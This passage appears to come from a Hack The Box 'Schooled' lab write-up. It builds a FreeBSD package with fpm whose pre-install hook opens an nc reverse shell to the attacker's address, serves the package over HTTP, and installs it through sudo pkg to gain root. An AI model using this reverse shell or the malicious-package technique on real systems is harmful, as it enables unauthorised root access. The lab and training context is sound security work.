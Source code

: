 ```bash
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
Extracting x-1.0: 100%
```

Created a reverse shell exploit using the above PoC:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Schooled/exploit]
└─$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 10099 >/tmp/f' > pe.sh

┌──(kali㉿kali)-[~/…/HTB/box/Schooled/exploit]
└─$ fpm -n x -s dir -t freebsd -a all --before-install pe.sh .
DEPRECATION NOTICE: XZ::StreamWriter#close will automatically close the wrapped IO in the future. Use #finish to prevent that.
/var/lib/gems/2.7.0/gems/ruby-xz-0.2.3/lib/xz/stream_writer.rb:185:in `initialize'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:85:in `new'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:85:in `block in output'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:84:in `open'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/package/freebsd.rb:84:in `output'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/command.rb:487:in `execute'
        /var/lib/gems/2.7.0/gems/clamp-1.0.1/lib/clamp/command.rb:68:in `run'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/lib/fpm/command.rb:574:in `run'
        /var/lib/gems/2.7.0/gems/clamp-1.0.1/lib/clamp/command.rb:133:in `run'
        /var/lib/gems/2.7.0/gems/fpm-1.12.0/bin/fpm:7:in `<top (required)>'
        /usr/local/bin/fpm:23:in `load'
        /usr/local/bin/fpm:23:in `<main>'
Created package {:path=>"x-1.0.txz"}

┌──(kali㉿kali)-[~/…/HTB/box/Schooled/exploit]
└─$ sudo python3 -m http.server 80                                                   
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Downloaded and executed the exploit:

```bash
jamie@Schooled:~ $ curl 10.10.14.24/x-1.0.txz -o x-1.0.txz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2624  100  2624    0     0  23428      0 --:--:-- --:--:-- --:--:-- 23221
jamie@Schooled:~ $ sudo pkg install -y --no-repo-update x-1.0.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
```

